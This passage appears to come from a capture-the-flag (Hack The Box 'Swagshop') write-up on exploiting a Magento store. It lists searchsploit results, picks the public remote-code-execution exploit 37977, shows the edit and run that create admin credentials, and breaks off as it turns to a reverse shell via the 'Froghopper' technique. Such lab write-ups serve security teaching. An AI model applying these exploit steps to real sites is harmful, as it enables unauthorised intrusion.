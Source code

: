 Magento < 2.0.6 - Arbitrary Unserialize / Arbitrary Write File                                            | exploits/php/webapps/39838.php
Magento CE < 1.9.0.1 - (Authenticated) Remote Code Execution                                              | exploits/php/webapps/37811.py
Magento Server MAGMI Plugin - Multiple Vulnerabilities                                                    | exploits/php/webapps/35996.txt
Magento Server MAGMI Plugin 0.7.17a - Remote File Inclusion                                               | exploits/php/webapps/35052.txt
Magento eCommerce - Local File Disclosure                                                                 | exploits/php/webapps/19793.txt
Magento eCommerce - Remote Code Execution                                                                 | exploits/xml/webapps/37977.py
eBay Magento 1.9.2.1 - PHP FPM XML eXternal Entity Injection                                              | exploits/php/webapps/38573.txt
eBay Magento CE 1.9.2.1 - Unrestricted Cron Script (Code Execution / Denial of Service)                   | exploits/php/webapps/38651.txt
---------------------------------------------------------------------------------------------------------- ----------------------------------------
Shellcodes: No Result
{% endhighlight %}

Then, we can think like following way.
1. We can ignore the older version 1.2 and newer version 1.9.2.1.
2. If the major version is different, the codes could be changed a lot.
3. We don't have any credential for Magento.
4. Since Mage Scan didn't find any plugin, we can ignore these 2 for the "MAGMI Plugin".
5. The year of "vendor contact timeline" of "Magento eCommerce - Local File Disclosure" is "2012" while The copywrite of webpage on Swagshop is "2014".

This means, we should prioritize the exploit <a href="https://www.exploit-db.com/exploits/37977">"Magento eCommerce - Remote Code Execution"</a>. Besides, the date of this exploit is "2015".<br>
Remove syntax error, modify one line and try to execute.
{% highlight shell %}
// from
target = "http://target.com/"

// to
target = "http://10.10.10.140/index.php/"
{% endhighlight %}
{% highlight shell %}
root@kali:~# python 37977.py 
WORKED
Check http://target.com/admin with creds forme:forme
{% endhighlight %}

Now, we had following credential for the admin console of Magento.
{% highlight shell %}
forme:forme
{% endhighlight %}
![placeholder](https://inar1.github.io/public/images/2019-09-28/2019-09-28-20-31-58.png)

Then, somehow we have to get a reverse shell. Sounds there are many ways to upload a shell.<br>
This time, we use the method "<a href="https://www.foregenix.com/blog/anatomy-of-a-magento-attack-froghopper">Froghopper</a> attack".<br><br>
